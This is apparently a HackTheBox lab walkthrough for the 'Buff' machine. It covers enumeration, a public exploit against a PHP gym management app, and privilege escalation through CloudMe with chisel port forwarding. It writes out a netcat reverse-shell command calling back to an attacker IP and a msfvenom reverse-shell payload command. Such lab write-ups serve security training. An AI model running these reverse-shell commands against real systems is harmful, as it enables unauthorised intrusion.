 ```yaml
---
published: True
title: Hackthebox Buff walkthrough
date: 2021-11-26 03:27:00 +0200
categories: [HTB]
tags: HTB
---
```


<img src="https://i.ibb.co/WtCrJ77/buff.png" alt="buff" border="0">

<h1>Enumeration</h1>
<blockquote>
<p>ِLet`s begain scanning with NMAP</p>
</blockquote>

<img src="https://i.ibb.co/0rj2J7D/Enumeration.png" alt="Enumeration" border="0">
  
<blockquote>
<p>ِTwo ports are open 8080 , 7680</p>
</blockquote>  
  
<img src="https://i.ibb.co/T40QWjW/HTTP-Page.png" alt="HTTP-Page" border="0">
  
<blockquote>
<p>ِAfter opening the webapp at 8080 i found out it`s from ProjectWorld.in</p>
<p>And i searched for the project</p>
<p>https://projectworlds.in/free-projects/php-projects/gym-management-system-project-in-php/</p> 
<p>I searched for public exploit for the project and i found this <a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
</blockquote> 
  
<h1>Exploiting</h1>
<p>Python script</p>
<img src="https://i.ibb.co/J3wX1Y0/Authenticated.png" alt="Authenticated" border="0">

<blockquote>
<p>ِWe got in !</p>
</blockquote>

<blockquote>
<p>ِLet`s upload nc.exe</p>
</blockquote>
<img src="https://i.ibb.co/N9286zX/Uploading.png" alt="Uploading" border="0">

<blockquote>
<p>Let`s get our reverse shell</p> 
<p>ِC:\xampp\htdocs\gym\upload> powershell -c ".\nc.exe 10.10.10.10 1234 -e powershell"</p>
</blockquote>

<img src="https://i.ibb.co/cD5Zn57/Shaun.png" alt="Shaun" border="0">
<blockquote>
<p>ِWe got shell as SHAUN ! , Let`s get the user hash.</p>
</blockquote>

<h1>USER Flag !</h1>

<img src="https://i.ibb.co/nmtcnfR/USER.png" alt="USER" border="0">

<h1>Privilege Escalation</h1>
<blockquote>
<p>I uploaded WinPEAS.exe and after i ran it i found a vulnerable app called Cloudme.exe,it`s running on 8888 port </p>
<p>I search for an exploit and found these</p>
</blockquote>
<img src="https://i.ibb.co/JrfGmMk/image-3.png" alt="image-3" border="0">

<blockquote>
<p>ِWe need to use portforwarding to run the exploit, you can use CHISEL or PLINK.</p>
<p>It should be compiled to exe to run on windows i used golang</p>
<p>env GOOS=windows GOARCH=amd64 go build -o chisel-x64.exe -ldflags "-s -w" </p>
<p>You can compile it by this command</p> 
<p>After compilt it to exe , let`s upload it </p> 
</blockquote>

<img src="https://i.ibb.co/GxG19W1/uploading-chisel.png" alt="uploading-chisel" border="0">


<blockquote>
<p>ِI started the server at 8080 on my machine</p>
</blockquote>

<img src="https://i.ibb.co/8dyHfzN/on-your-linux-server.png" alt="on-your-linux-server" border="0">

<blockquote>
<p>ِWe need to start Chisel on the victim machine to connect</p>
</blockquote>

<img src="https://i.ibb.co/5B6KMN7/Chisel-on-victim.png" alt="Chisel-on-victim" border="0">

<h1>Exploiting Cloudme</h1>
<blockquote>
<p> We need to adjust msfvenom cmd to get a shell to our machine</p> 
<p>So you to copy this and adjust your Ip address to get your shell
"msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python" 
<a href="https://www.exploit-db.com/exploits/48506">Exploit</a></p>
<p>Run your listner on the port you choosed in the payload then run the EXPLOIT ..</p>
</blockquote>

<img src="https://i.ibb.co/1r8Xqc2/Listner.png" alt="Listner" border="0">
<img src="https://i.ibb.co/b374fJZ/Got-in.png" alt="Got-in" border="0">

<h1>ROOT Flag !</h1>
<img src="https://i.ibb.co/By7fdbL/admin-hash.png" alt="admin-hash" border="0">

<h1>Thanks for Reading 🙏</h1>
